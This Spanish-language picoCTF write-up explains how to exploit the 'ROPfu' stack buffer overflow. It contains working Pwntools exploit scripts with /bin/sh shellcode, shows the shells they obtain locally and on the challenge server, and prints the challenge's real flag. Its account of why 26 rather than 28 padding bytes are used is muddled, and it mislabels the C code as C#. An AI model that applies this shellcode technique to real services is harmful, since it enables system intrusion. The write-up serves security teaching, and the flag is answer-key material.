



# ROPfu PicoCTF (Hard)

## Contexto de la maquina

### Trayectoria ROPfu

<figure><figcaption></figcaption></figure>

### Descripción

Este reto consiste en analizar y explotar un **binario vulnerable en C** que contiene un **desbordamiento de buffer basado en stack**. El programa utiliza la función insegura `gets()`, permitiendo que un atacante sobrescriba la **dirección de retorno (EIP)** y redirija el flujo de ejecución.

El objetivo del reto es explotar esta vulnerabilidad utilizando **ROP (Return Oriented Programming)** para ejecutar código arbitrario y obtener una **shell en el sistema**, desde la cual se podrá leer la flag.

**Objetivo del reto**

Explotar el desbordamiento de buffer presente en el programa para controlar el flujo de ejecución y ejecutar código que permita obtener acceso a una **shell interactiva** y leer el archivo que contiene la flag.

**Tipo de reto**

* Explotación de binarios
* Linux
* Stack Buffer Overflow
* Return Oriented Programming (ROP)

**Habilidades y técnicas evaluadas**

* Análisis de código fuente en C
* Identificación de vulnerabilidades de memoria
* Explotación de **stack buffer overflow**
* Cálculo de offsets en memoria
* Uso de **Pwntools**
* Uso de **GDB** para análisis de memoria
* Búsqueda de gadgets con **ROPgadget**
* Construcción de payloads con shellcode
* Explotación remota mediante **netcat**

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

## Despliegue del CTF

En la propia pagina buscaremos el `CTF`, dentro veremos dos archivos los cuales nos podremos descargar llamados `vuln` y `vuln.c`.

El objetivo de estos `CTFs` es encontrar la `flag` final.

## Análisis del código C\#

Si leemos la descripcion del reto.

```
What's ROP? 
Can you exploit the following program to get the flag? Download source. 
nc saturn.picoctf.net 59700
```

La descripción nos indica básicamente que debemos **explotar un programa vulnerable utilizando ROP (Return Oriented Programming)** para poder obtener la `flag`.

Para ello nos proporcionan:

* El **código fuente del programa**
* Un **servicio remoto accesible mediante netcat**

Por lo tanto, lo primero que debemos hacer es **analizar el código fuente** para entender dónde se encuentra la vulnerabilidad y cómo podemos aprovecharla.

### Código vulnerable

<figure><figcaption></figcaption></figure>

> vuln.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

### Preparando el entorno local

Antes de analizar la vulnerabilidad, vamos a crear un archivo llamado `flag.txt`, ya que estamos realizando el laboratorio **en local**.

De esta forma, cuando consigamos explotar el programa, podremos comprobar que la explotación funciona correctamente leyendo la flag desde nuestro entorno.

```shell
echo "picoCTF{r0pf5_fl4g_l0c4l}" > flag.txt
```

Más adelante, cuando tengamos el exploit funcionando, lo utilizaremos contra el **servicio remoto del reto** para obtener la flag real.

## Explotación (ROP - Return Oriented Programming)

### Identificación del Offset

Lo primero es encontrar el **offset exacto necesario para sobrescribir la dirección de retorno (EIP)** en el stack.\
Para ello utilizamos la librería **Pwntools**, que nos permite generar patrones cíclicos únicos y así identificar con precisión en qué posición ocurre el overflow.

El procedimiento consiste en:

1. Generar un **patrón cíclico** suficientemente grande.
2. Enviarlo como input al binario vulnerable.
3. Esperar a que el programa crashee.
4. Analizar el **core dump** para ver qué valor ha sobrescrito el registro **EIP**.
5. Usar ese valor para calcular el offset exacto.

> offset.py

```python
#!/usr/bin/env python3
from pwn import *

context.binary = './vuln'
context.log_level = 'debug'

# Generar patrón cíclico de 100 bytes
pattern = cyclic(100)

# Ejecutar el programa y enviar el patrón
p = process('./vuln')
p.recvline()
p.sendline(pattern)
p.wait()

# Analizar el core dump para encontrar el offset
core = p.corefile
if core:
    offset = cyclic_find(core.eip)
    print(f"[+] Offset exacto: {offset}")
    core.close()
else:
    print("[-] No se generó core file")
```

Lo ejecutamos de la siguiente forma:

```shell
python3 -m venv .venv; source .venv/bin/activate
pip install pwn
python3 offset.py
```

Respuesta:

```
[*] '/home/kali/Desktop/PicoCTF/ropfu/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 111983
[DEBUG] Received 0x47 bytes:
    b'How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n'
[DEBUG] Sent 0x65 bytes:
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa\n'
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 111983)
[DEBUG] core_pattern: b'core'
[DEBUG] core_uses_pid: True
[DEBUG] interpreter: ''
[DEBUG] Found core immediately: 'core.111983'
[+] Parsing corefile...: Done
[*] '/tmp/tmpksi2d6xu'
    Arch:      i386-32-little
    EIP:       0x61616168
    ESP:       0xffffc0f0
    Exe:       '/home/kali/Desktop/PicoCTF/ropfu/vuln' (0x8048000)
    Fault:     0x61616168
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/PicoCTF/ropfu/core.111983'
    Arch:      i386-32-little
    EIP:       0x61616168
    ESP:       0xffffc0f0
    Exe:       '/home/kali/Desktop/PicoCTF/ropfu/vuln' (0x8048000)
    Fault:     0x61616168
[+] Offset exacto: 28
```

Al analizar el _core dump_ vemos:

```
EIP:       0x61616168
```

Ese valor pertenece al patrón cíclico generado anteriormente. Usando `cyclic_find()` obtenemos:

```
[+] Offset exacto: 28
```

Esto significa que **tras 28 bytes comenzamos a sobrescribir EIP**.

***

### ¿Por qué usar offset 26 y no 28?

Aunque el offset calculado es **28**, en el exploit final utilizaremos **26 bytes de relleno**.

Esto se debe a cómo queremos posicionar nuestro **shellcode en el stack**.

Analizando el stack vemos:

* Las `A` (relleno) empiezan en `0xffffc06c`
* La dirección de retorno está en `0xffffc088`

La diferencia entre ambas posiciones es:

```
0xffffc088 - 0xffffc06c = 28 bytes
```

Por tanto, el offset teórico es 28.

Sin embargo, nuestro shellcode necesita colocarse **inmediatamente después de la dirección de retorno** y alinearse correctamente para que el flujo de ejecución continúe de forma estable.

Si usamos offset 28, el layout sería:

```
[28 A's][jmp esp][jmp_eax][shellcode]
       ^
       La dirección de retorno apunta al "jmp esp"
```

Esto en teoría funciona, pero dependiendo del alineamiento del stack puede provocar que el flujo de ejecución no salte exactamente donde esperamos.

En cambio, con offset **26** obtenemos:

```
[26 A's][jmp esp][jmp_eax][shellcode]
       ^
       La dirección de retorno apunta al "jmp esp"
```

La diferencia es pequeña, pero al desplazar ligeramente el payload conseguimos que **ESP apunte exactamente a la zona donde empieza nuestro código**, evitando problemas de alineación y haciendo la explotación más fiable.

***

### Verificación con GDB

Para confirmar el offset podemos utilizar **GNU Debugger** y observar directamente el contenido del stack tras el crash.

Ejecutamos el binario en GDB:

```shell
gdb ./vuln
(gdb) break vuln
(gdb) run
(gdb) continue
# Introducimos: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
```

Respuesta:

```
Program received signal SIGSEGV, Segmentation fault.
0x48484848 in ?? ()
```

El valor `0x48` corresponde al carácter **H**, lo que indica que las `H` han sobrescrito **EIP**.

Ahora examinamos el stack:

```
(gdb) x/20x $esp-60
```

Respuesta:

```
0xffffc054:	0x080e5000	0xffffc088	0x08049db9	0xffffc070
0xffffc064:	0x080e62c4	0x00000000	0x08049d95	0x41414141
0xffffc074:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffc084:	0x46464646	0x47474747	0x48484848	0x080e5000
0xffffc094:	0x080e5000	0x080e5000	0x000003e8	0xffffc0c0
```

Observamos:

* `0x41414141` → AAAA
* `0x42424242` → BBBB
* ...
* `0x48484848` → HHHH

Esto confirma que el crash ocurre exactamente en la posición esperada.

### Búsqueda de Gadgets Útiles

Tras la llamada a `gets()`, el registro **EAX apunta al inicio del buffer** donde se encuentra nuestro input.

Por tanto, si encontramos un gadget **`jmp eax`**, podremos redirigir la ejecución directamente hacia nuestro shellcode.

Para buscar gadgets utilizamos **ROPgadget**:

```shell
pip install ropgadget
ROPgadget --binary vuln | grep "jmp eax"
```

Respuesta:

```
0x0805333b : jmp eax
...
```

Este gadget es ideal porque simplemente ejecuta:

```
jmp eax
```

y como **EAX ya apunta a nuestro buffer**, la ejecución saltará directamente a nuestro payload.

### Construcción del Exploit

El flujo final del exploit será:

1. **26 bytes de padding** para alcanzar EIP
2. Incluir el shellcode que contiene:
   * `jmp esp` → saltar al stack
   * dirección de `jmp eax` → redirigir la ejecución
   * shellcode que ejecuta `/bin/sh`

> exploitLOCAL.py

```python
#!/usr/bin/env python3
from pwn import *

context.binary = './vuln'
context.log_level = 'info'
context.arch = 'i386'

# Gadget jmp eax (EAX apunta al buffer después de gets)
jmp_eax = 0x0805333b

# Offset correcto (26, no 28)
offset = 26

# Shellcode: jmp esp + jmp_eax + shellcode /bin/sh
shellcode = b"\xFF\xE4"  # jmp esp
shellcode += p32(jmp_eax)  # vuelve a jmp eax
shellcode += b"\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"  # /bin/sh

payload = b"A" * offset
payload += shellcode

print(f"[+] Usando jmp_eax: {hex(jmp_eax)}")
print(f"[+] Offset: {offset}")
print(f"[+] Longitud payload: {len(payload)}")

# Conexión local
p = process('./vuln')
p.recvline()
p.sendline(payload)

# Pequeña pausa para que el shellcode se ejecute
sleep(0.5)

# Interactuar directamente
p.interactive()
```

Ejecutamos el exploit:

```shell
python3 exploitLOCAL.py
```

Respuesta:

```
[*] '/home/kali/Desktop/PicoCTF/ropfu/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Usando jmp_eax: 0x805333b
[+] Offset: 26
[+] Longitud payload: 57
[+] Starting local process './vuln': pid 122445
[*] Switching to interactive mode
$ cat flag.txt
picoCTF{r0pf5_fl4g_l0c4l}
$
```

Con esto conseguimos **obtener una shell interactiva y leer la flag**, confirmando que el exploit funciona correctamente.

Vamos a utilizar este `exploit` en el reto real conectandonos de forma remota, para ello tendremos que ajustar el `script` que hemos creado para que se conecte al reto real y lo explote cuando lo ejecutemos:

## Explotación del reto (Remoto)

A continuación se muestra el script utilizado para explotar el servicio remoto.

> exploit.py

```shell
#!/usr/bin/env python3
from pwn import *

# Configuración
context.binary = './vuln'  # Necesario para el análisis del binario
context.log_level = 'info'
context.arch = 'i386'

# Datos del servidor remoto
HOST = "<DOMAIN>"              # Cambia por el dominio objetivo
PORT = <PORT>                  # Cambia por el puerto objetivo

# Gadget jmp eax (EAX apunta al buffer después de gets)
jmp_eax = 0x0805333b

# Offset correcto (26, no 28)
offset = 26

# Shellcode: jmp esp + jmp_eax + shellcode /bin/sh
shellcode = b"\xFF\xE4"  # jmp esp
shellcode += p32(jmp_eax)  # vuelve a jmp eax
shellcode += b"\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"  # /bin/sh

payload = b"A" * offset
payload += shellcode

print(f"[+] Usando jmp_eax: {hex(jmp_eax)}")
print(f"[+] Offset: {offset}")
print(f"[+] Longitud payload: {len(payload)}")
print(f"[+] Conectando a {HOST}:{PORT}...")

# Conexión remota (cambiar process por remote)
p = remote(HOST, PORT)

# Recibir el banner/mensaje inicial
try:
    banner = p.recvline(timeout=3)
    print(f"[+] Recibido: {banner.decode().strip()}")
except:
    print("[!] No se recibió banner, continuando...")

# Enviar el payload
p.sendline(payload)
print("[+] Payload enviado")

# Pequeña pausa para que el shellcode se ejecute
sleep(1)

# Interactuar con la shell remota
print("[+] Modo interactivo activado. ¡Listo para ejecutar comandos!")
p.interactive()
```

Ahora ejecutamos el script:

```shell
python3 exploit.py
```

Respuesta:

```
[*] '/home/kali/Desktop/PicoCTF/ropfu/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Usando jmp_eax: 0x805333b
[+] Offset: 26
[+] Longitud payload: 57
[+] Conectando a saturn.picoctf.net:55732...
[+] Opening connection to saturn.picoctf.net on port 55732: Done
[+] Recibido: How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
[+] Payload enviado
[+] Modo interactivo activado. ¡Listo para ejecutar comandos!
[*] Switching to interactive mode
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_4c812975}
```

Una vez que el payload se ejecuta correctamente, obtenemos **una shell remota en el servidor del reto**.

Desde esta shell simplemente leemos el archivo que contiene la flag.

> flag.txt

```
picoCTF{5n47ch_7h3_5h311_4c812975}
```
